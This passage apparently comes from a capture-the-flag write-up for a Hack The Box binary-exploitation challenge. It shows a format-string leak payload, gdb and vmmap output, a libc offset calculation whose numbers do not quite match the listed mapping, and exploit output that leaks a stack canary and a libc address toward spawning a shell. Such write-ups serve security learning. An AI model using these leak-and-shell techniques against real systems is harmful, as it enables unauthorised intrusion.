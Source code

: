 ```
Red or Green Kryptonite?
%25$p
0x7ffff7dbe480

gdb-peda$ x/gw 0x7ffff7dbe480
0x7ffff7dbe480 <__libc_start_call_main+122>:    0xffe8c789
```

So `libc_start_call_main` is located at position 25. This isn't the `libc` library itself, so we have to use `vmmap` to identify where the library starts being loaded:

```
gdb-peda$ vmmap 
Start              End                Perm      Name
0x0000555555554000 0x0000555555555000 r--p      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555555000 0x0000555555556000 r-xp      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555556000 0x0000555555557000 r--p      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555557000 0x0000555555558000 r--p      /home/kali/htb/pwn/what_does_the_f_say
0x0000555555558000 0x0000555555559000 rw-p      /home/kali/htb/pwn/what_does_the_f_say
0x00007ffff7dbb000 0x00007ffff7dbe000 rw-p      mapped
0x00007ffff7dbe000 0x00007ffff7de4000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
```

Using the start address of the first instance of `libc` being loaded, we can calculate the offset to find the base address.

```
>>> hex(-0x7ffff7dbe480 + 0x7ffff7de518a)
'0x26d0a'
```

Since we can leak the `libc_start_main` address of `libc`, we can actually find the exact `libc` being used on the challenge server. Then, we can head to Blukat to find and download the exact library, which we will need in order to spawn a shell on the challenge server.

{% embed url="https://libc.blukat.me/" %}

```
$ python3 exploit.py
[+] Opening connection to 159.65.81.48 on port 30455: Done
[*] Stack Canary: 0xecdcc986acd2a500
[*] Libc_Start: 0x7f2ae943eb97
[*] Closed connection to 159.65.81.48 port 30455
```

<figure><img src="../../.gitbook/assets/image (437).png" alt=""><figcaption></figcaption></figure>
